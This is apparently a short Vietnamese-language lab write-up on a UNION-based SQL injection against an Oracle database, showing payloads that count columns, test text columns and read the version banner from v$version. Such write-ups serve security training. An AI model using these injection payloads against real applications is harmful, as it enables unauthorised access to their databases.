





# SQL Injection Lab 03: Oracle Version

## Mục tiêu
Khai thác SQLi tại `category` để lấy version Oracle từ `v$version`.


<br><br>

## Các bước chính
1. Xác định số cột bằng `UNION SELECT`:

```sql
' union select null from dual--
' union select null, null from dual--
```





<br><br>

2. Kiểm tra cột hiển thị text:

```sql
' union select 'abc', 'bcd' from dual--
```


<br><br>

3. Lấy thông tin version Oracle:

```sql
' union select banner, null from v$version--
```


<br><br>

## Payload solve

```sql
' union select banner, null from v$version--
```
